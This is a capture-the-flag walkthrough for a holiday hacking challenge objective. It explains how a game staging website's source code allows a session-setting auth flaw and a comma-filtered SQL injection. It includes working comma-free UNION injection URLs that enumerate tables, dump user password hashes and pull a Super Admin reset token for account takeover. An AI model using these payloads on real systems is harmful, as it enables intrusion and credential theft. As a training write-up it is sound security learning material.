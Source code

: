 <h1 id="objective-12-frost-tower-website-checkup">Objective 12: Frost Tower Website Checkup</h1>
<p><strong>Location: Studio, Frost Tower, 16<sup>th</sup> Floor, <a href="https://staging.jackfrosttower.com/">https://staging.jackfrosttower.com/</a></strong><br>
<strong>Troll: Ingreta Tude</strong><br>
<strong>Hints provided by Ribb Bonbowford after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md">Elf Code Python</a></strong></p>
<p>This objective is to perform a security assessment of the Frost Tower website with the <a href="https://download.holidayhackchallenge.com/2021/frosttower-web.zip">source code</a> being provided.<br>
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.</p>
<h3 id="auth-flaw">Auth flaw</h3>
<p>The application tracks the user’s session in <code>session</code> (login name, user’s role etc.).<br>
It was found that a valid session is also set, if you complete the <a href="https://staging.jackfrosttower.com/contact">contact form</a> whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.</p>
<pre><code>app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength &gt;= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
</code></pre>
<h3 id="sqli-flaw">SQLi flaw</h3>
<p>Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.</p>
<pre><code>app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";
    if (session.uniqueID){
        try {
            if (reqparam.indexOf(',') &gt; 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i&lt;ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
</code></pre>
<p>As only caveat it has to be ensured, that the <strong>comma character has to be avoided</strong> in the SQL statement as the application splits up the query at the commas.<br>
Furthermore it is important to note that “union” requires that the <strong>number of columns on both sides match</strong>.<br>
Due to the fact, that the <code>union</code> database has 7 columns, it has to be ensured, that also on the right hand side of the <code>union</code> 7 columns have to be delivered.</p>
<p>This URL is the base for all following SQLi attacks:</p>
<pre><code>https://staging.jackfrosttower.com/detail/0,0 union
</code></pre>
<p>During research a <a href="https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/">very good explanation</a> about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.</p>
<h3 id="getting-access-to-jack-frosts-todo-list">Getting access to Jack Frosts todo list</h3>
<p>We can obtain a list of all interesting tables in the MySQL database using this SQL statement:</p>
<pre><code>select table_name from information_schema.tables;
</code></pre>
<p>This can be rewritten for our SQLi flaw:</p>
<pre><code>https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select table_name from information_schema.tables)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This reveals, that in addition to the tables <code>emails</code> and <code>uniquecontact</code>, which are known as they are used in the application and in the provided schema of encontact <code>encontact_db.sql</code>, there is an additional table <code>todo</code>, which seems to be the todo list we need access to.</p>
<p>Using the SQL statement</p>
<pre><code>select column_name from information_schema.columns where table_name="todo";
</code></pre>
<p>the list of columns in the table <code>todo</code> can be obtained.<br>
This can be rewritten for the SQLi as follows:</p>
<pre><code>https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select column_name from information_schema.columns where table_name="todo")d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>we can see, that this table consists out of 3 columns: <code>id</code>, <code>note</code>, <code>completed</code>.<br>
The <code>note</code> column can then be extracted using</p>
<pre><code>select note from todo;
</code></pre>
<p>Rewritten for the SQLi:</p>
<pre><code>https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select note from todo)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This brings up Jack Frosts todo list:</p>
<ul>
<li>Buy up land all around Santa’s Castle</li>
<li>Build bigger and more majestic tower next to Santa’s</li>
<li>Erode Santa’s influence at the North Pole via FrostFest, the greatest Con in history</li>
<li>Dishearten Santa’s elves and encourage defection to our cause</li>
<li>Steal Santa’s sleigh technology and  build a competing and way better Frosty present delivery vehicle</li>
<li>Undermine Santa’s ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem</li>
<li>Force Santa to cancel Christmas</li>
<li>SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide… so the whole world sees that Frost saved the Holiday Season!!! Bwahahahahaha!</li>
<li>With Santa defeated, offer the old man a job as a <strong>clerk</strong> in the Frost Tower Gift Shop so we can keep an eye on him</li>
</ul>
<hr>
<h3 id="bonus-getting-super-admin-privileges-in-the-application">Bonus: Getting Super Admin privileges in the application</h3>
<p>Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:</p>
<pre><code>https://staging.jackfrosttower.com/detail/0,0 union select * from users--
</code></pre>
<p>This contains for example:</p>
<ul>
<li>Super Admin</li>
<li>root@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i</li>
<li>1</li>
<li>November 23rd, 2021 11:00:00</li>
<li>December 18th, 2021 7:05:17</li>
</ul>
<hr>
<ul>
<li>Admin</li>
<li>admin@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>FTkzq07Az57M.Q8jw7ehB…h5Vdc3Vw04zQzJIt294bgwg7.aV1GC</li>
<li>2</li>
<li>December 3rd, 2021 11:00:00</li>
</ul>
<p>This shows, that we have a “Super Admin” with the email address root@localhost defined in the system.</p>
<p>Next the “<a href="https://staging.jackfrosttower.com/forgotpass">forgot password</a>” function of the application can be used to increase the privileges.<br>
When resetting the password for a user, a random token is created and stored in the user database in the column <code>token</code>. If we are able to get hold of this token, we can change the password of the user and have full control.</p>
<p>The token for the Super Admin “root@localhost” can be retrieved using this URL:</p>
<pre><code>https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a join (select 2)b join (select 3)c join (select token from users where email="root@localhost")d join (select 4)e join (select 5)f join (select 6)g;--
</code></pre>
<p>Using the URL <a href="https://staging.jackfrosttower.com/forgotpass/token/">https://staging.jackfrosttower.com/forgotpass/token/</a>{retrieved token} it is possible to set a new password for the “Super Admin” user.<br>
Being logged on as this user, a new personalized user with “Super Admin” privileges can be created.</p>
<p><strong>Achievement: Frost Tower Website Checkup</strong></p>

